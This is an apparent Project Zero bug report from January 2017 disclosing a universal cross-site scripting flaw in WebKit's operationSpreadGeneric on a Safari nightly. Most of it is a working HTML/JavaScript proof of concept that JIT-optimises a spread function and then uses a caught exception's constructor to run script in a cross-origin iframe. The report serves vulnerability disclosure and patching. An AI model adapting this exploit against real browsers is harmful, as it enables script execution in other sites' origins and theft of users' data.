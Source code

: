 # UXSS via operationSpreadGeneric
### Reported by lokihardt@google.com, Jan 20 2017

Once a spread operation is optimized, the function |operationSpreadGeneric| will be called from then on. But operationSpreadGeneric's trying to get a JSGlobalObject from the argument of a spread operation.

It seems that that optimization is not implemented to the release version of Safari yet.

Tested on the Nighly 10.0.2(12602.3.12.0.1, r210957)

PoC:
```html
<body>
<script>

'use strict';

function spread(a) {
    return [...a];
}

let arr = Object.create([1, 2, 3, 4]);
for (let i = 0; i < 0x10000; i++) {
    spread(arr);
}

let f = document.body.appendChild(document.createElement('iframe'));
f.onload = () => {
    f.onload = null;

    try {
        spread(f.contentWindow);
    } catch (e) {
        e.constructor.constructor('alert(location)')();
    }
};

f.src = 'https://abc.xyz/';

</script>
</body>
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1094
